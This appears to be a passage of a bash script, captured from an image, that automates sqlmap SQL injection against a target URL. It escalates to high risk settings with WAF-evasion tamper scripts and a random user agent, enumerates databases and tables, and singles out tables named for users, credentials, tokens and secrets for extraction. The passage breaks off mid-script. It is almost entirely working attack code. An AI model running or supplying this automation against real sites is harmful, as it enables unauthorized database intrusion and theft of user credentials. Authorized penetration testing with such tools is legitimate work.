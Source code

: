 ```bash
run_sqlmap "Initial Detection" "sqlmap -u \"$TARGET_URL\" --batch --random-agent --threads=$THREADS --level=1 --risk=$RISK_LEVEL -v 1 --output-dir=$OUTPUT_DIR"

# Check if vulnerable
if grep -q "is vulnerable" "$OUTPUT_DIR/log"; then
  echo "[+] Target is vulnerable to SQL injection! Proceeding with exploitation."
else
  echo "[-] No straightforward SQL injection vulnerability detected. Trying advanced options."
  # Increase level and risk, try different techniques
  run_sqlmap "Advanced Detection" "sqlmap -u \"$TARGET_URL\" --batch --random-agent --threads=$THREADS --level=5 --risk=3 --tamper=space2comment,between,charencode -v 1 --output-dir=$OUTPUT_DIR"
  
  # Check again if vulnerable
  if ! grep -q "is vulnerable" "$OUTPUT_DIR/log"; then
    echo "[-] Target does not appear to be vulnerable to SQL injection. Exiting."
    exit 0
  fi
fi

# Phase 2: Database Enumeration
echo "[+] Enumerating database information"
run_sqlmap "Database Banner" "sqlmap -u \"$TARGET_URL\" --batch --random-agent --banner --threads=$THREADS --output-dir=$OUTPUT_DIR"
run_sqlmap "Current User" "sqlmap -u \"$TARGET_URL\" --batch --random-agent --current-user --threads=$THREADS --output-dir=$OUTPUT_DIR"
run_sqlmap "Current DB" "sqlmap -u \"$TARGET_URL\" --batch --random-agent --current-db --threads=$THREADS --output-dir=$OUTPUT_DIR"
run_sqlmap "List Databases" "sqlmap -u \"$TARGET_URL\" --batch --random-agent --dbs --threads=$THREADS --output-dir=$OUTPUT_DIR"

# Extract current database from output
CURRENT_DB=$(grep -A 1 "current database" "$OUTPUT_DIR/Current_DB.txt" | tail -n 1 | awk '{print $1}')

if [ -z "$CURRENT_DB" ]; then
  echo "[-] Could not determine current database. Please specify manually:"
  read -p "Database name: " CURRENT_DB
fi

echo "[+] Using database: $CURRENT_DB"

# Phase 3: Table Enumeration
echo "[+] Enumerating tables in $CURRENT_DB"
run_sqlmap "List Tables" "sqlmap -u \"$TARGET_URL\" --batch --random-agent -D $CURRENT_DB --tables --threads=$THREADS --output-dir=$OUTPUT_DIR"

# Extract interesting tables
TABLES_FILE="$OUTPUT_DIR/interesting_tables.txt"
grep -A 100 "tables for database" "$OUTPUT_DIR/List_Tables.txt" | grep "|" | grep -v "Table" | awk '{print $2}' > "$TABLES_FILE"

# Look for interesting tables
INTERESTING_TABLES=()
for pattern in "user" "admin" "account" "member" "customer" "client" "auth" "permission" "credential" "login" "session" "token" "key" "secret" "config" "setting"; do
  grep -i "$pattern" "$TABLES_FILE" >> "$OUTPUT_DIR/priority_tables.txt"
done

if [ -s "$OUTPUT_DIR/priority_tables.txt" ]; then
  INTERESTING_TABLES=($(cat "$OUTPUT_DIR/priority_tables.txt" | sort | uniq))
else
  # If no interesting tables found, use all tables (up to 5)
  INTERESTING_TABLES=($(head -n 5 "$TABLES_FILE"))
```